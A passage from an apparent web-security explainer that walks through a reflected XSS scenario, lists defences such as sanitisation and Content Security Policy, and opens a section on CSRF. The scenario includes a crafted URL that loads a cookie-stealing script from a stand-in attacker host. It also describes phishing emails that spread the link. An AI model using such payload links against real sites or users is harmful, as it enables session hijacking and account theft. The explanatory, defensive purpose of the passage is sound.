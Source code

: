 + The query produces an alert box saying: "XSS".
+ The page displays: "<script type='text/javascript'>alert('XSS');</script > not found."
+ The page's URL reads http://ecommerce.com?q=<script type="text/javascript">alert('XSS'); </script>.

This tells the perpetrator that the website is vulnerable. Next, he creates his own URL, which reads:

```git
http://forum.com?q=news<\script%20src="http://hackersite.com/authstealer.js"
```
and embeds it as a link into a seemingly harmless email, which he sends to a group of forum users.


While the sending address and subject line may appear suspect to some, it does not mean that it won't be clicked on.

In fact, even if only one in every 1,000 recipients of the email click on the link, that still amounts to several dozen infected forum users. They will be taken to the forum's website, where the malicious script will be reflected back to their browser, enabling the perpetrator to steal their session cookies and hijack their forum accounts.



## Solutions

+ First and foremost, from the user's point-of-view, vigilance is the best way to avoid XSS scripting. 

+ Untrusted HTML input must be run through an HTML sanitization engine to ensure that it does not contain XSS code.

+ It is ultimately up to a website operator to prevent potential abuse to their users. This is done by blocking the user's requests. This is done to protect the user, as well as to prevent collateral damage to all other website visitors.

+ Stealing cookies can be mitigated by tying session cookies to the IP address of the user who originally logged in, then only permit that IP to use that cookie.

+ There are three classes of XSS defense that are emerging. These include Content Security Policy,[38] Javascript sandbox tools, and auto-escaping templates. These mechanisms are still evolving but promise a future of heavily reduced XSS attack occurrence.



# Cross Site Request Forgery (CSRF)


Cross site request forgery (CSRF), also known as XSRF, Sea Surf or Session Riding, is an attack vector that tricks a web browser into executing an unwanted action in an application to which a user is logged in.
![Image](https://www.incapsula.com/images/illustrations/web-app-security-mini-site/csrf-cross-site-request-forgery.png)
CSRFs are typically conducted using malicious social engineering, such as an email or link that tricks the victim into sending a forged request to a server. As the unsuspecting user is authenticated by their application at the time of the attack, it’s impossible to distinguish a legitimate request from a forged one.
